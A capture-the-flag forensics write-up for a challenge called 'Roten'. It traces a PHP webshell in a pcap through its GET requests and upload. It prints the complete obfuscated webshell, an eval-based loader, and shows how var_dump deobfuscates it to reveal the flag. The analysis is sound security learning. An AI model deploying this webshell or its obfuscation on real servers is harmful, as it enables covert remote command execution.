 ## Forensics - Roten

__Challenge description:__

> The iMoS is responsible for collecting and analyzing targeting data across various galaxies. The data is collected through their webserver, which is accessible to authorized personnel only. However, the iMoS suspects that their webserver has been compromised, and they are unable to locate the source of the breach. They suspect that some kind of shell has been uploaded, but they are unable to find it. The iMoS have provided you with some network data to analyse, its up to you to save us.

</br>
</br>

We were given a pcap file `challenge.pcap`.
I opened it with `wireshark` and analyzed it.

After some searching I found a `GET` request in the capture where a `whoami` system command was passed to a php file named `galacticmap.php`.

![Screenshot0](./screenshots/0.png)

Using "Follow->HTTP Stream" I could also see that the file returned results for an `ls` command from the get parameter.
This must be the webshell!

I searched further and filtered the traffic only for POST requests.

`http.request.method == "POST"`

![Screenshot1](./screenshots/1.png)

In package number `1929` we find the point where the webshell was uploaded.
On the right we can also see some PHP code of the webshell already.

Right click on the frame and `Follow->HTTP Stream` and we can have a better look at the uploaded PHP code.

![Screenshot2](./screenshots/2.png)

We don't get very clever from the obfuscated PHP code.
I copied it first and saved it in an extra file.

```php
<?php 
$pPziZoJiMpcu = 82; 
$liGBOKxsOGMz = array(); 
$iyzQ5h8qf6 = "" ; 
$iyzQ5h8qf6 .= "<nnyo ea\$px-aloerl0=e r\$0' weme Su rgsr s\"eu>\"e'Er= elmi)y ]_'t>bde e e  =p   xt\" ?ltps vdfic-xetrmsx'l0em0  o\"oc&'t [r\"e _e;eV.ncxm'vToil   ,F y"; 
$iyzQ5h8qf6 .= "<r s -<a  \"op r_P< poeeihaeild /ds\"se4bsxao1: r]du ;e\$'o,t dn\n)i\$'me'maoate{e  I!lb>'u btde .sr ege/ han:t"; 
$iyzQ5h8qf6 .= "elrlenjl t>( 0'eCdd0  l et0\n'seu u it ;e_ dc>ulUd'T\nxe\$L<er<.l oh>c  ii aert pdt iai(ed.QiJr\n\$i0; 0\"e0' d= ex ].xp\$r re \nwSn'u<lup ]o iluE/=>b\$t r>\n"; 
$iyzQ5h8qf6 .= "h rxn ltmb \n'-aodd') bubaa\nff0 i0] )- [ &\"4 ==e[wn (r #iEa tftelF)U sspSb\"'rd  dO o e_t ppso \n]DpneaC;aoesvp\ni( }f0 & ' \"( ]0 =sc'o  \$s #nRmaeoi=oi)p te"; 
$iyzQ5h8qf6 .= "l[>c;>ia ew   agP aw(d i;ep:rto\nnor/a/<l )\n( = ?;\$r\$0 0 'puwr\$\$d\" fgVeu'rp'al l s o'<o\n<rs rn \" leeetu\$y f\nsl (en dtyjS3?e\$   ) 0 \ngem0=  xrtrlsdi; l E=t>ma\"d"; 
$iyzQ5h8qf6 .= "e{o  iafbl\nb. }ee < ptrchid>   cia''t  s qc.p)m{ \$ (0' rao0 ) 'ieid;ir\n adR'o\\ r.''\na ifdiro >'\$\ndr<t apmh(di\" ( rctE)"; 
$iyzQ5h8qf6 .= "e mtlur3h;o  m{\$2x odd0(  )n't[\nr)  gi[dcnat\$   d n Dl>r R k}\"<tr twso\$(r; i iatx;n iriei.p\nd\$ o m0' u\"e1\$\$ "; 
$iyzQ5h8qf6 .= " t]e'} ) } r'io\"c/_in '  (ie': e&e\n>/b> hu( df)\n s ptap\nt nabrp6\n et d\$o0  p] )ogi?f)'r\n=  \n=ePrm;tfGda"; 
$iyzQ5h8qf6 .= " ]e\"mrT;r s&ye\nto\" (i\$\"ii e s tici - ipryt/\n  y etd): [ & wrf (;]e\n {   cH'p\nioE=m [c.oeo\ne u  c hd; \$dd<rl.c e iohr L fca/ jf &p  ye   "; 
$iyzQ5h8qf6 .= "\"= ?no('\"\n,a\n\$\n  HtP leorT'e 'h\$vcU d l'=h >y\n d(it.e h t onme e idr1-su  e &p ?' e 0 eu t%  d\$_   To_vecnm[f= nouetp \" t."; 
$iyzQ5h8qf6 .= ">o \n> eifrd'o\"o ( n/es n eny.-/n 0=e e& - x(0'rp\$'1 \$'dP   BrSath=-'i' a p_ol >  \$    \n cri)>/w<  \$i:on: g "; 
$iyzQ5h8qf6 .= "d. 1>bc x'l0= ''\$e\$0x[[m s g]iO   {yEleo'ddls m\"luro E}o_\$\"< < h.l <'n/\" _f ct  t  c-2\not 2dsx'0w;gcm0''\"o:% r,rS   W Lu= \"aieu\$e<opya r\nfG"; 
$iyzQ5h8qf6 .= "v<t ? o'e.a.et< G Ft;0 h Co-.<oi 0'eAs0'\nruo2 eed 1 o  T   0\"Fe'\".trTbu'bal)d r\n Eabh p  /o  \$rd/ E(ie ' :eSm>2stoi0; 0'4  otd):xxe's u\$=[ "; 
$iyzQ5h8qf6 .= "  w '=o<\$a'omp]rdo)' o}cTlre h \"'w\"hv(>t Tfltf)  xS/\n/csnf0 i0;0: uee  ee T% pw '  \$_.]\"f/_']Uil)>Da ] r\no[u>a p <.n<ra\$\\a [ie-i; 'i b<jrt ( }f0 0  "; 
$iyzQ5h8qf6 .= "p\" ?'cc&'1 [o\$d  dR ..ffS>.pto;<id{[} \nm'e\"d \n t\$e/eldnb 'l sl\n  t-osqirp )\n( })' []& -uu ;s\$'r_ii iO\$\"\$'oE"; 
$iyzQ5h8qf6 .= "\\\"l'a\nbre\n' uimc);> fidvrtfui\"l deTte  .;-ocupar\$   )\n - \"  ''tt0\n\"selGrf rtd'd rRn'o>d red nepfam \n\n<o"; 
$iyzQ5h8qf6 .= "f>a(d=er;e o_rrn h \n>tretpim{ \$  ?' w=0w;eex ,.xdE'   _i iamV\"/a\"D >c_ all nd{? tr <l\$>').\n> weaea ef \nsir .no  "; 
$iyzQ5h8qf6 .= "m{  ; r 0'\n'\"2  =e[T](\$=Armru>E;>d;i <tf mso(d'\n> he(aud\\\" ' \" nxnam ai <tpysmtd\$ o  '\n i(0  ]]0 \$sc'[;if _ e.t\"R\n '\nr boi eeai ] \n >ai ein../ ; lisme "; 
$iyzQ5h8qf6 .= "dl lrt.riPet d\$ r \$t\$0: = 0 opuw'\nsi'D.t\"o;[e\">ee  rl ' dse, \n Pcsh)r\"  ' \n osf'= ee ia mcne y et ' gem4  ==  wrtrd}_l.a h f\n'c;\\cc sye ]{isx  <"; 
$iyzQ5h8qf6 .= " eh_r .;\$\". \n ate)\" rs npsi=.r&p  y   r\"o)' ' ) nieii\nfe/Y\"o/oePh\nnht t.( .\nnee\$ t r de.'\n_'\$ \n dsr;' (i k/rn\"jm e &p : o]d - x(  en'tr\$i '}<d>ccHoe<o"; 
$iyzQ5h8qf6 .= "o y\"\$ ' gtcc a<m(if / S>v ? '('\n. 'z  3c.hss0=e e   u e?' '\$\$ rt]e'fl=;\n/=\"uhP cb ril._    (um bti\$r=\"' E\"a > ]\$) b Pe r.=jt\"(x'l0=e' p=  ; )gw\$[f)']ie \n\$h"; 
$iyzQ5h8qf6 .= "';so_\"hr\"yfe<F u f\$td lrsd('/. R.l \n )f; a r(}e3\"st>\$1csx'l- [ &'\n  ros'(;];l(\$}d2G\n> S<o><  =/I p i_ir e>sir\"'\$ V u}\n )i\n s a\$\nl.h\"p<f0'e8l"; 
$iyzQ5h8qf6 .= "s' \"( r i?or=r\"\n,\ne\$d\ni>Ee\\\"Ei </=('bL l lGoe  \nire.>v E\$e\n\n  l  ehgf}=6t>:/i0; 0'e;\$r\$0' f ulse%  i di\$r\"Tcn\\Ln\"id fc>E o eEns c osa \"a Rv) \n {e"; 
$iyzQ5h8qf6 .= "  nemi\n\"/t</sl0 i0; \noem0  ('pdpa1 \$f=irds;'h<nFp<ni\$io<S a  T:u l n l\$.l [a) < \n)  aaal\nscp//ce }f0 \$ wao0:  s[[rds w  r;i \n>o"; 
$iyzQ5h8qf6 .= "i<'uipvdll/[ d '[ l a sap_ u 'l[ /  )  md:e?tsssmr))\n( }t ndd1  \$''\"i'% o(')\nr=e\" nb]tnu>ieob' e .'<t s <saS\$e}Pu"; 
$iyzQ5h8qf6 .= "n d     ee )>ys:cai    )\ny e\"e0' m een]1 ri')   c;\"pr. pt\"r_rrfed \$c/) s / tEv)\nHea i  {  (rp)\nl//rxp{{ \$  p r] )- o:xxt,s ls;  =sh\n<u>\"tu"; 
$iyzQ5h8qf6 .= " ;.e:>ic  umb; = t\$hRa) P m v  \n  \$(u;\neb/ict\n  m{ e [ & ' d eef % ds\n{  coeit\\'ytt\n'xr<lhs pd>\n \" hk(Vl[ _.e >     f'b\n<soapd> \$ o  = \"="; 
$iyzQ5h8qf6 .= " ?;\$e'cc(\$1 [ei\n ra cn n p y\n/ie/eou l'< et >e\$Eun S ] \n     iCl hhojtn\n t d\$ ' e 0 \nw Suu\"os\$'tf  en\"hpt<metpi'sdbT c o]b ca"; 
$iyzQ5h8qf6 .= "<\nydRea E\" e<    hlai teta>.\n y et u x(0' o&'tt%w\"se(   ad\\ouyde=yef.t'ro'c a)r hbt  i[ m L<.c/    eecc mesx\nb< p  y '\$e\$0x r ;ee1n,.x\$(  lin tpit'p"; 
$iyzQ5h8qf6 .= "= bs>>U<e d)> olh =r'.e F/\"hh \$  a)h' ltt.\nod e &p ;ocm2' l0\n'\"se =e_\$  pr<\" evhhe'(a(E\"pbseD \"  e> >.P ] 'a<ot f hd.e) >\"r"; 
$iyzQ5h8qf6 .= "g<oi =e e \nwuo0  dx ]]\"r\$scPd  a(b<t= oi=sis\$r;lrsci{; \" N  'H\"  ]>/ m i ee'-; \n ao!tv 'l0=e ntd): [8 = ,[gpuOi  t\$riy'cdd'useur\no>fhr\n\n \$ta \$/P<.e <t\""; 
$iyzQ5h8qf6 .= "l l ar\"C\n <hpo-s  psx'l eee   \"0 == 'rrtSr  hd>npsl=dfbsnpo a<uoe   vam v'_/ l./d<> e d('o  !r.g-tc\$'e6-s r\" ?' e0 ' \$woieT   (i<peua'eime"; 
$iyzQ5h8qf6 .= "alr dbl c  fabe<a.Sa\"s t>/    e')n  -eml rlm; 0'e []& - x  x(trun'[=  \$rfu=bsPnlitmo. 'rl't  oll</l\$E><e\"d<t  = rC;t  -fieLaao i0;  \"  ''\$e) "; 
$iyzQ5h8qf6 .= "'\$yipt]'=  d)ot'msO'et(ea  ]>y<o  rue/tuvL</ ?>tr    (o\nr   =naapsd}f0 i w=0w;wc  )wpt[f)d   i;r ti=S ''\$(dF [< br  ee-treaF/t{d<d>  \$h"; 
$iyzQ5h8qf6 .= "'n o  L\".ptcse\n( }f r 0'\nou\$  oee'(;iN  r\nmtet'Tn  _\$Di 'biry  a hh>)l'td\not>\"  _eCt l rahcied=   )\n( i(0  rtoi?r)'r\"\nrU e.e yx'n'anvP_il t>n>.  c"; 
$iyzQ5h8qf6 .= "\\o>\n u]d> wd ;  Gaoe : ettsssn\"= \$   \$t\$4: lewf l;]e% 'L c'capt a maaOFre mF <'  hnv\n {e >< n>\"\n  Ednn   aets.t.c  m{ \$oem0  d\"n('d\n,a1 ]L h/hce'vveemlS"; 
$iyzQ5h8qf6 .= "Ie }pi'b<ee <e  \n).<t l\" }  Tett m dsp\"c cof o  mw\"o)' []e s[  ds )  o'ot= abn=euTLca\n_l.r/cx(br   ) td o..\n  [re- u ft:>oconi d\$ on]d - "; 
$iyzQ5h8qf6 .= "\" r\$'' \$'% )oe . i'nlac'=e[Etl ne\$>bhe\$r    )\"d> a  e  '(nD s i /\nmomtl et de e?' w=[m e o]1  rc\$\$\"ohaurtd'='Sor a d<>occ>t <  ?>  dppc  d"; 
$iyzQ5h8qf6 .= "'ti t lc/\n/m/ae  y er=  ; r \"o:x w,s { hfv<nime-yif's[re m'ib< (m\"a / {d\"\" =orh  oC-s -heom<apbip &p  [ &'\n i(ed e n % \n!oiah=de=fpriUu'ya e.r b\"'d;b t"; 
$iyzQ5h8qf6 .= " \ni.  \"sio  woTp re(ma!jionee e &\"( r \$t\$xe'c e\$1  i ll2'd='oe'lpbf)d '\$.sr<cr\nl h  r . .in   "; 
for($i = 0; $i < $pPziZoJiMpcu; $i++) $liGBOKxsOGMz[] = ""; 
for($i = 0; $i < (strlen($iyzQ5h8qf6) / $pPziZoJiMpcu); $i++) { for($r = 0; $r < $pPziZoJiMpcu; $r++) $liGBOKxsOGMz[$r] .= $iyzQ5h8qf6[$r + $i * $pPziZoJiMpcu]; } 
$bhrTeZXazQ = trim(implode("", $liGBOKxsOGMz)); 
$bhrTeZXazQ = "?>$bhrTeZXazQ"; 
eval( $bhrTeZXazQ ); 
?>
```

That is a lot of chaos...

I started searching wildly on the internet for PHP deobfuscation tools which was unnecessary.
If we look at the PHP code we see at the end the `eval( $bhrTeZXazQ );` function with a passed value.

I wanted to see what exactly the `eval()` function was doing.
So I commented out the eval function, took the variable `$bhrTeZXazQ` and used the function `var_dump()` to show me the content.

```php
...

var_dump($bhrTeZXazQ)
//eval( $bhrTeZXazQ ); 
?>
```

I ran the PHP code and got to see the deobfuscated code in which the flag was hiding.

Flag: `HTB{W0w_ROt_A_DaY}`
